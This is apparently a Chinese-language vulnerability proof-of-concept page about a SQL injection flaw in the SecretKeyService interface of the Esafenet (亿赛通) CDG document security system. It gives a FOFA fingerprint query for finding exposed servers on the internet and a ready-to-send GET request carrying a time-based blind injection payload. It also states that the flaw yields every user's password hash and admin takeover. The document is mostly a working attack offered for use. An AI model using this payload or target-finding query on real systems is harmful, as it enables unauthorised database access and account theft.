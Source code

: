 # 亿赛通电子文档安全管理系统SecretKeyService存在SQL注入漏洞

亿赛通电子文档安全管理系统的 SecretKeyService接口存在 SQL 注入漏洞。 攻击者可以通过构造特定的 POST 请求注入恶意 SQL 代码，利用该漏洞对数据库执行任意 SQL 操作，获取所有用户的账户密码信息，破解md5值后可直接接管后台，导致系统处于极不安全的状态。

## fofa

```java
body="/CDGServer3/index.jsp"
```

## poc

```java
GET /CDGServer3/SecretKeyService?command=sameKeyName&keyName=1'+WAITFOR+DELAY+'0:0:5'--+ HTTP/1.1
Host: your-ip
```

![亿赛通电子文档安全管理系统 SecretKeyService SQL注入漏洞](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408122206511.png)